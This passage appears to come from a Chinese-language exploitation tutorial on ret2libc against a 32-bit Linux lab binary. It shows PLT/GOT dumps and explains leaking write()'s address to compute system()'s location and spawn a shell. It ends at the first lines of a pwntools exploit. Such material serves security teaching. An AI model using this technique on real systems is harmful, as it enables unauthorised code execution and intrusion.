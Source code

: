 08048330 <__libc_start_main@plt>:
 8048330:   ff 25 08 a0 04 08       jmp    *0x804a008
 8048336:   68 10 00 00 00          push   $0x10
 804833b:   e9 c0 ff ff ff          jmp    8048300 <_init+0x30>

08048340 <write@plt>:
 8048340:   ff 25 0c a0 04 08       jmp    *0x804a00c
 8048346:   68 18 00 00 00          push   $0x18
 804834b:   e9 b0 ff ff ff          jmp    8048300 <_init+0x30>

$ objdump -R level2
//got表
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   read
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main
0804a00c R_386_JUMP_SLOT   write
</code>
</pre>
<p nodeIndex="109">我们发现除了程序本身的实现的函数之外，我们还可以使用 <code nodeIndex="191">read@plt()</code> 和 <code nodeIndex="192">write@plt()</code> 函数。但因为程序本身并没有调用 <code nodeIndex="193">system()</code> 函数，所以我们并不能直接调用 <code nodeIndex="194">system()</code> 来获取shell。但其实我们有 <code nodeIndex="195">write@plt()</code> 函数就够了，因为我们可以通过 <code nodeIndex="196">write@plt ()</code> 函数把 <code nodeIndex="197">write()</code> 函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的 <code nodeIndex="198">write@plt()</code> 函数为什么也能实现 <code nodeIndex="199">write()</code> 功能呢? 这是因为linux采用了延时绑定技术，当我们调用 <code nodeIndex="200">write@plit()</code> 的时候，系统会将真正的 <code nodeIndex="201">write()</code> 函数地址link到got表的 <code nodeIndex="202">write.got</code> 中，然后 <code nodeIndex="203">write@plit()</code> 会根据 <code nodeIndex="204">write.got</code> 跳转到真正的 <code nodeIndex="205">write()</code> 函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）</p>
<p nodeIndex="110">因为 <code nodeIndex="206">system()</code> 函数和 <code nodeIndex="207">write()</code> 在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出 <code nodeIndex="208">system()</code> 在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了 <code nodeIndex="209">system()</code> 在内存中的地址，就可以调用 <code nodeIndex="210">system()</code> 函数来获取我们的shell了。</p>
<p nodeIndex="111">使用ldd命令可以查看目标程序调用的so库。随后我们把libc.so拷贝到当前目录，因为我们的exp需要这个so文件来计算相对地址：</p>
<pre class="prettyprint" nodeIndex="112">
<code nodeIndex="211">#!bash
$ldd level2 
    linux-gate.so.1 =>  (0xb7781000)
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c4000)
    /lib/ld-linux.so.2 (0xb7782000)
$ cp /lib/i386-linux-gnu/libc.so.6 libc.so
</code>
</pre>
<p nodeIndex="113">最后exp如下：</p>
<pre class="prettyprint" nodeIndex="114">
<code nodeIndex="212">#!python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so')
elf = ELF('level2')
